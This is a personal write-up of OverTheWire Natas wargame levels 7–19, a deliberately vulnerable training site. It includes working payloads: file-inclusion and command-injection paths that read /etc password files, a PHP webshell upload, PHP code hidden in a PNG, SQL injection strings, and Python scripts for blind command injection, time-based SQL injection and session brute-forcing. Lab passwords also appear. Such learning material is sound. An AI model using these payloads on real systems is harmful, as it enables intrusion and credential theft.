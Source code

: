 # over-the-wire-natas
Did till natas7 b4 creating this repo <br>
Starting from natas7<br><br>
->Natas7<br>
used concept of local file inclusion. open source code(ctrl+U) and hint is given that pwd is in /etc/.../natas8/. observe that url of home and about contains php part.
from "https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion"<br> Typical proof-of-concept would be to load passwd file:
<i>http://vulnerable_host/preview.php?file=../../../../etc/passwd. </i> so just put /etc../natas8 in url instead of about. <br> <br>
->Natas8<br>
nothing in ctrl+U. going to "view sourcecode" will find php code. take the encodedSecret, convert it to ascii, reverse it, decode base64 and lesgoo!! <br><br>
->Natas9<br>
play around. type * and it gives the source code. tried ls -a. # verifies that it's working. ```| cat``` gives entire txt file. or just do http://natas9.natas.labs.overthewire.org/dictionary.txt (as proven by typing ```ls -a``` in search)<br> given at beginning of natas - all pwds are at /etc/natas_webpass/natasX. so type ```| cat /etc/natas_webpass/natas10```.<br>unrelated info: no. of "." (periods) will determine the min. word length. supports regex. type ^.......$ to get 7 letter words only<br><br>
->Natas10<br>
search ```"" cat /etc/natas_webpass/natas11```.<br><br>
->Natas11<br>
WTF. 3 things - key,cipher,plaintext - are reqd. in XOR encryption. to find key do XOR of cipher and plaintext. plaintext = ```{"showpassword":"no","bgcolor":"#ffffff"}```. copy COOKIE, b64 decode it, XOR it using plaintext as key. key will be obtained as repeated pattern. now set showpwd to yes in plaintext and do reverse to find cookie. change value of cookie and reload page.<br><br>
->Natas12<br>
```A malicious file such as a Unix shell script, a windows virus, an Excel file with a dangerous formula, or a reverse shell can be uploaded on the server in order to execute code by an administrator or webmaster later – on the victim’s machine.```<br>
just write a php file with code ```<?php
$output = shell_exec('cat /etc/natas_webpass/natas13');
echo "<pre>$output</pre>";
?>``` and save it with .php extension. then choose it and upload it through burpsuite using proxy. in burpsuite change the file extension in file name to .php and forward the request. open the file on the site to find pwd.<br><br>
->Natas13<br>
bit tricky. take a png file (i took a ss of 140bytes). open "hexed.it" (or any other tool u find useful). upload the png file. now, afaik, png files are recognized by IHDR and IEND tags in the hexdump. so just paste your php code after IEND. save it and follow the prev level steps now. key would be displayed after the hexdump of png file like ```�PNG  IHDR�=M�sRGB���gAMA���a pHYstt�fx!IDAT8Oc�����@`��D�Q ĀQ ĀA���hl� �IEND�B`�z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ```.<br><br>
->Natas14<br>
v simple. sql injection. write username admin. pwd as ```"or '1'='1'"```. yay!<br><br>
->Natas15<br>
itta ni aata, sry. "https://medium.com/@kawsaruddin238/overthewire-natas-level-14-level-15-411de023672c"<br><br>
->Natas16<br>
```
import requests,string
#BLIND SQL INJECTION
#$(command) - command subsitution
url = "http://natas16.natas.labs.overthewire.org"
username = "natas16"
pwd = "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"

ch = 'qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM1234567890'
password=''
for i in range(1,34):
    for char in ch:
        uri = f"{url}?needle=$(grep -E ^{password}{char}.* /etc/natas_webpass/natas17)hackers"
#grep -i "$(grep -E ^{''.join(password)}{char}.* /etc/natas_webpass/natas17)hackers" dictionary.txt
#hackers is a unique word in dictionary. so if anything gets prepended to it through our script,
#then it shouldn't return anything, right. so just add char to password with which nothing gets printed out.     
        r = requests.get(uri, auth=(username,pwd))
        if 'hackers' not in r.text:
            #The text attribute of the response object (r)
            password += char
            print(password)
            break
        else:
            continue
#"https://mcpa.github.io/natas/wargame/web/overthewire/2015/10/01/natas16/"
```
<br><br>
->Natas17<br>
read: "https://owasp.org/www-community/attacks/Blind_SQL_Injection" time-based part. help taken.
```
import requests
import time

url = "http://natas17.natas.labs.overthewire.org"
auth = ("natas17", "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC")
characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
cset = ""
for char in characters:
    payload = f'natas18" AND IF(password LIKE BINARY "%{char}%", SLEEP(15), 0) -- '
    start_time = time.time()

    response = requests.get(url, params={"username": payload}, auth=auth)

    elapsed_time = time.time() - start_time
    if elapsed_time > 15:  
        cset += char
print(f"Charset: {cset}")

password = ""
while len(password) != 32:
	for c in cset:
		t = password + c
		username = 'natas18" AND IF(password LIKE BINARY "%s%%",SLEEP(%d), 1)#' % (t, 15)
		r = requests.get(url, auth=auth, params={"username": username}
		)
		s = r.elapsed.total_seconds()
		if s >= 15:
			#print (t)
			password = t
			break
print("password: ",password)
```
<br><br>
->Natas18<br>
"https://stackoverflow.com/questions/1370951/what-is-phpsessid" ```PHP uses one of two methods to keep track of sessions. If cookies are enabled, like in your case, it uses them.``` ig hint is maxid = 640. so just loop through PHPSESSID from 1 to 640 using py script or burpsuite intruder. i used burpsuite sniper attack.<br><br>
->Natas19<br>
```
import requests ```
username = 'natas19'
pwd = 'tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr'
url = 'http://natas19.natas.labs.overthewire.org/'
#start a session
session = requests.Session()
#the cookie that i got is the hex form of "80-admin"-'38302d61646d696e', so try replacing 80
for x in range(1,641):
    string = (f"{x}"+"-admin").encode('utf-8')
    payload = string.hex()
    print(payload)
    response = session.get(url,cookies={'PHPSESSID':payload}, auth=(username,pwd))
    content = response.text
    if "You are an admin" in content:
        print("yello", x)
        break
    else:
        print ("tried: ", x)

```
<br><br>
->Natas20<br>






